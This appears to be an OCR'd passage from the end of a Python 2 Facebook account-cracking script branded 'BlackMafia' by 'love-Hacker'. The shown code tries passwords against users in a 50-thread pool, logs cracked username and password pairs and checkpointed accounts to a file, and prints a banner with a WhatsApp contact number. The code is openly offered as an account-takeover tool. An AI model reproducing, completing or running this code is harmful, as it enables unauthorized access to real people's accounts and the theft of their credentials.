 																print '\x1b[1;92mHack 100%💉\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;96mCheckpoint\x1b[1;97m-\x1b[1;96m▬\x1b[1;97m-' + user + '-\x1b[1;96m▬\x1b[1;97m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(50)
	p.map(main, id)
	print "\033[1;96m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mBlackMafia\033[1;96m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"
	print "  \033[1;93m«---•◈•---Developed By love-Hacker--•◈•---»" #Dev:love_hacker
	print '\033[1;96m✅Process Has Been Completed Press➡ Ctrl+Z.↩ Next Type (python2 SpiderMan.py)↩\033[1;97m....'
	print"\033[1;92mTotal OK/\x1b[1;93mCP \033[1;93m: \033[1;97m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))
	print """
                         ¸,.-~·¹´¨¨¨¨¨¨¨¨¨¨¨¨¨¨`²·~-.,¸        
                     .·´;:':                              `·. 
                 .·´;;:: ':                                   `·. 
     '        .·´;;;:::  :                  '                     \ 
            /;;;.·´¨¨¨` · .                      . · ´¨¨¨¨`·.     ',    
          ,';;;/;:: :       `·.            '   ·'              \     ; 
          ;';,';;::: :'         '\            ·:                 ',   ; 
          ;'/¸.·´¨¨` · . `·.     ',   !   ,':    .·´ . · ´¨¨¨¨`·.¸\  ;  
          ',;;',:::      `·.      ';      ;::    .·´            /  ,'      
           ',;;'\::        ' \     ';     ;: ,' /           .·´   ,' 
       '     `·.;'`·.         '',   ;     ;  ,'         .·´   ¸.·´ 
                '`·.: `¹·~-.,¸ \ ,'      ',/¸,.-~·¹´  '  .·´          
                    `·.;:'      `'`       ´'´        ' .·´  
                       `·.:          ´ `          .·´          
                          `·.,¸    ¸,.-.     .·´ 
                             ·;~-.¸     ¸,.;´
      
                       Checkpoint ID Open After 7 Days

•\033[1;93m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.
: \033[1;96m ....lovehacker  BlackMafia....... \033[1;93m :
•\033[1;93m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.' 
                WhatsApp Num
              \033[1;96m +923094161457"""
	
	raw_input("\n\033[1;93m[\033[1;96mBack\033[1;93m]")
	menu()

if __name__ == '__main__':
	login()
